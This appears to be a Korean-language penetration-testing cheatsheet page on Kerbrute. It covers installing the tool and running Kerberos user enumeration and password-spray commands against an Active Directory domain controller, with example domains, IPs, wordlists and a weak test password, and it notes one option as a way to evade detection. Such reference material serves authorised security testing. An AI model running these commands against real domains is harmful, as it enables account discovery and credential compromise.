

repository: naaamgi/my-docusaurus-page · page: cheatsheet/password-attacks/kerbrute/index.html · generator: docusaurus

---
sidebar_position: 4
---

# Kerbrute

Kerberos 프로토콜을 이용한 사용자 열거 및 비밀번호 스프레이 도구입니다.

## 설치

```bash
# Go로 설치
go install github.com/ropnop/kerbrute@latest

# 바이너리 다운로드
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

## 기본 사용법

```bash
kerbrute <COMMAND> [OPTIONS]
```

## 사용자 열거 (User Enumeration)

### 기본 사용

```bash
# 도메인과 DC 지정
kerbrute userenum -d <DOMAIN> --dc <DC_IP> userlist.txt

# 실제 예제
kerbrute userenum -d corp.local --dc 10.10.10.100 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

### 옵션

```bash
# 출력 파일 지정
kerbrute userenum -d <DOMAIN> --dc <DC_IP> -o valid_users.txt userlist.txt

# Verbose 모드
kerbrute userenum -d <DOMAIN> --dc <DC_IP> -v userlist.txt

# 스레드 수 조절
kerbrute userenum -d <DOMAIN> --dc <DC_IP> -t 10 userlist.txt

# 안전 모드 (느리지만 탐지 회피)
kerbrute userenum -d <DOMAIN> --dc <DC_IP> --safe userlist.txt
```

## 비밀번호 스프레이 (Password Spray)

### 기본 사용

```bash
# 단일 비밀번호로 여러 사용자 테스트
kerbrute passwordspray -d <DOMAIN> --dc <DC_IP> users.txt <PASSWORD>

# 실제 예제
kerbrute passwordspray -d corp.local --dc 10.10.10.100 valid_users.txt Password123
```
